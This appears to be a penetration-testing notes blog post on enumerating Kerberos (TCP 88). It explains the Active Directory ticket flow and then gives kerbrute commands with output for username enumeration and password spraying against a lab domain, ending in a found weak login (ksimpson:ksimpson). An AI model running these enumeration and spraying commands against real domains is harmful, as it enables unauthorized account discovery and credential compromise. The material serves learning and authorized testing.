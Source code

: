 ```yaml
---
description: >-
  Enumerate Kerberos Service.
title: KERBEROS (tcp-88)                 # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [01 Enumeration, KERBEROS (tcp-88)]                     # Change Templates to Writeup
tags: [kerberos enumeration]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Explanation
The Kerberos authentication protocol used by Microsoft is adopted from the Kerberos version 5 authentication protocol created by MIT and has been used as Microsoft's primary authentication mechanism since Windows Server 2003. While NTLM authentication works through a principle of challenge and response, Windows-based Kerberos authentication uses a ticket system.

At a high level, Kerberos client authentication to a service in Active Directory involves the use of a domain controller in the role of a key distribution center, or KDC. This process is shown below.

![Description](/assets/img/Pasted-image-20221113212909.png)

For example, when a user logs in to their workstation, a request is sent to the domain controller, which has the role of KDC and also maintains the Authentication Server service. This _Authentication Server Request_ (or _AS_REQ_) contains a time stamp that is encrypted using a hash derived from the password of the user and the username.

When the domain controller receives the request, it looks up the password hash associated with the specific user and attempts to decrypt the time stamp. If the decryption process is successful and the time stamp is not a duplicate (a potential replay attack), the authentication is considered successful.

The domain controller replies to the client with an _Authentication Server Reply_ (_AS_REP_) that contains a session key (since Kerberos is stateless) and a _Ticket Granting Ticket_ (TGT). The session key is encrypted using the user's password hash, and may be decrypted by the client and reused. The TGT contains information regarding the user, including group memberships, the domain, a time stamp, the IP address of the client, and the session key.

In order to avoid tampering, the Ticket Granting Ticket is encrypted by a secret key known only to the KDC and can not be decrypted by the client. Once the client has received the session key and the TGT, the KDC considers the client authentication complete. By default, the TGT will be valid for 10 hours, after which a renewal occurs. This renewal does not require the user to re-enter the password.

When the user wishes to access resources of the domain, such as a network share, an Exchange mailbox, or some other application with a registered service principal name, it must again contact the KDC.

This time, the client constructs a _Ticket Granting Service Request_ (or _TGS_REQ_) packet that consists of the current user and a timestamp (encrypted using the session key), the SPN of the resource, and the encrypted TGT.

Next, the ticket granting service on the KDC receives the TGS_REQ, and if the SPN exists in the domain, the TGT is decrypted using the secret key known only to the KDC. The session key is then extracted from the TGT and used to decrypt the username and timestamp of the request. As this point the KDC performs several checks:

1.  The TGT must have a valid timestamp (no replay detected and the request has not expired).
2.  The username from the TGS_REQ has to match the username from the TGT.
3.  The client IP address needs to coincide with the TGT IP address.

If this verification process succeeds, the ticket granting service responds to the client with a _Ticket Granting Server Reply_ or _TGS_REP_. This packet contains three parts:

1.  The SPN to which access has been granted.
2.  A session key to be used between the client and the SPN.
3.  A _service ticket_ containing the username and group memberships along with the newly-created session key.

The first two parts (SPN and session key) are encrypted using the session key associated with the creation of the TGT and the _service ticket_ is encrypted using the password hash of the service account registered with the SPN in question.

Once the authentication process by the KDC is complete and the client has both a session key and a service ticket, the service authentication begins.

First, the client sends to the application server an _application request_ or _AP_REQ_ , which includes the username and a timestamp encrypted with the session key associated with the service ticket along with the service ticket itself.

The application server decrypts the service ticket using the service account password hash and extracts the username and the session key. It then uses the latter to decrypt the username from the _AP_REQ_. If the _AP_REQ_ username matches the one decrypted from the service ticket, the request is accepted. Before access is granted, the service inspects the supplied group memberships in the service ticket and assigns appropriate permissions to the user, after which the user may access the requested service.

This protocol may seem complicated and perhaps even convoluted, but it was designed to mitigate various network attacks and prevent the use of fake credentials.

### Kerbrute

> Tool to validate valid users on the domain, remember that "users" is a dictionary and it must be created even if only one user needs to be tested
{: .prompt-tip }
```bash
kerbrute userenum -d scrm.local --dc 10.10.11.168 /usr/share/seclists/Kerberos/A-ZSurnames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 01/21/23 - Ronnie Flathers @ropnop

2023/01/21 22:44:31 >  Using KDC(s):
2023/01/21 22:44:31 >   10.10.11.168:88

2023/01/21 22:44:31 >  [+] VALID USERNAME:       ASMITH@scrm.local
2023/01/21 22:45:06 >  [+] VALID USERNAME:       JHALL@scrm.local
2023/01/21 22:45:11 >  [+] VALID USERNAME:       KSIMPSON@scrm.local
2023/01/21 22:45:13 >  [+] VALID USERNAME:       KHICKS@scrm.local
2023/01/21 22:45:44 >  [+] VALID USERNAME:       SJENKINS@scrm.local
2023/01/21 22:46:15 >  Done! Tested 13000 usernames (5 valid) in 104.092 seconds
```
Example:
[Scrambled](https://shuciran.github.io/posts/Scrambled/#fnref:kerbrute)
[Tentacle](https://shuciran.github.io/posts/Tentacle/#fnref:kerbrute)

### Password Spraying
```bash
kerbrute bruteuser --dc 10.10.11.168 -d scrm.local validUsers ksimpson

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 01/21/23 - Ronnie Flathers @ropnop

2023/01/21 23:30:54 >  Using KDC(s):
2023/01/21 23:30:54 >   10.10.11.168:88

2023/01/21 23:30:55 >  [+] VALID LOGIN:  ksimpson@scrm.local:ksimpson
2023/01/21 23:30:55 >  Done! Tested 6 logins (1 successes) in 0.494 seconds
```

Useful resource to get a dictionary with possible users on a domain (test with dot and without it):
[kerberos enum userlists](https://github.com/attackdebris/kerberos_enum_userlists)

> If users are found this tool will execute an [ASREPRoast Attack](https://shuciran.github.io/posts/ASREPRoast-Attack/)
{: .prompt-warning }



